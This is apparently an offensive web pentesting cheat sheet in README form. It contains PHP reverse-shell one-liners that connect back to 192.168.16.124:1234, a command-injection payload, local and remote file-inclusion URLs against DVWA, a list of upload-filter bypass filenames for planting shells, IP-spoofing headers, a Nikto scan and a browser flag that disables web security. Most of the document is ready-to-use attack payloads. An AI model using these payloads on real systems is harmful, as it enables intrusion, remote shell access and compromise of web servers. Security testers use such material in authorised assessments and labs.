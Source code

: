 # WEB

PHP
===

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


Command Injection
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


Local File Inclusion
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path


IP Spoofing
-----------

Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  

Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser Tricks
--------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"
